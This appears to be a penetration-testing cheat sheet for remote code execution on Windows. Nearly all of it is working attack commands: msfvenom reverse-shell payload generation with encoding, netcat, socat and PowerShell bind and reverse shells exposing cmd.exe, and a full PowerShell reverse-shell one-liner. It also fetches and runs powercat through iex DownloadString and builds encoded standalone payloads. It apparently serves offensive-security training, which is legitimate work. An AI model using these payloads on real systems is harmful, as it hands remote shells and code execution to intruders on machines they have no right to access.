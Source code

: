 # Windows Remote Code Execution

## <a href='https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/' target="blank">MSFVenom Reverse Shell Payload Cheatsheet</a>

## <a href='https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md' target="blank">Reverse Shell Cheat Sheet</a>

## Exploit Resources

=== "Online"

	[Exploit Database]( https://www.exploit-db.com)

	[SecurityFocus]( https://www.securityfocus.com)

	[Packet Storm](https://packetstormsecurity.com)

=== "Offline"

	SearchSploit

	``` bash
	i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe -lws2_32

	wine32 syncbreeze_exploit.exe
	```

	Nmap NSE Scripts

	``` bash
	cd /usr/share/nmap/scripts
	grep Exploits *.nse
	nmap --script-help=clamav-exec.nse
	```

	Metasploit Framework

	BeEF

=== "Shell File"

	``` bash
	msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell.exe
	```

=== "Java Code"

	``` bash
	msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war
	```

=== "Shell Code"

	``` bash
	msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=443 EXITFUNC=thread  -f c –e x86/shikata_ga_nai -b "<badchars>"
	```

=== "Encoders"

	``` bash
	msfvenom  --list encoders
	```

## <a href='https://miloserdov.org/?p=4516' target="blank">Windows remote desktop from Linux</a>

``` bash
rdesktop $ip -u Tester -p Pass
```

``` bash
xfreerdp /f /u:Tester /p:<Pass> /v:192.168.0.101 /drive:D,/tmp
```

## Netcat

### Netcat Bind Shell

Kali machine

``` bash
nc -nv 192.168.11.131 443
```

Windows machine

``` bash
nc -nlvp 443 -e cmd.exe
```

### Netcat Reverse Shell

Kali machine

``` bash
sudo nc -nlvp 443
```

Windows machine

``` bash
nc -nv 192.168.11.130 443 -e cmd.exe
```

## Socat

### Socat Reverse Shell

Kali machine

``` bash
socat -d -d TCP4-LISTEN:443 STDOUT
```

Windows machine

``` bash
socat TCP4:192.168.11.130:443 EXEC:cmd.exe
```

### Socat Encrypted Bind Shell

Create credential

``` bash
openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 999 -out bind_shell.crt
cat bind_shell.key bind_shell.crt > bind_shell.pem
```

Windows machine

``` bash
socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:cmd.exe
```

Kali machine

``` bash
sudo socat OPENSSL:192.168.11.130:443,verify=0
```

## PowerShell

### Unrestricted

``` powerShell
Set-ExecutionPolicy Unrestricted
Get-ExecutionPolicy
```

### PowerShell Bind Shell

Kali machine

``` bash
nc -nv 192.168.11.131 443
```

Windows machine

``` bash
powershell -c "$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',443);$listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' +(pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Stop()"
```

### PowerShell Reverse Shell

Kali machine

``` bash
sudo nc -nlvp 443
```

Windows machine

``` bash
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.11.130',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

## Powercat

### Powercat Create Environment

Windows machine

``` powershell
. .\powercat.ps1
```

``` powershell
iex (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')
```

Kali machine

``` bash
sudo apt install powercat
cat /usr/share/windows-resources/powercat/powercat.ps1
```

### Powercat Bind Shell

Kali machine

``` bash
nc -nv 192.168.11.131 443
```

Windows machine

``` bash
powercat -l -p 443 -e cmd.exe
```

### Powercat Reverse Shell

Kali machine

``` bash
sudo nc -nlvp 443
```

Windows machine

``` bash
powercat -c 192.168.11.130 -p 443 -e cmd.exe
```

### Powercat Stand-Alone Payloads

Kali machine

``` bash
sudo nc -nlvp 443
```

Windows machine

``` bash
powercat -c 192.168.11.130 -p 443 -e cmd.exe -g > shell.ps1

.\shell.ps1
```

### Powercat Encoded Payloads

Kali machine

``` bash
sudo nc -nlvp 443
```

Windows machine

``` bash
powercat -c 192.168.11.130 -p 443 -e cmd.exe -ge > encoded_shell.ps1

powershell.exe -E ZgB1AG4AYwB0AGkAbwBuACAAUwB0A...pAAoACgA=
```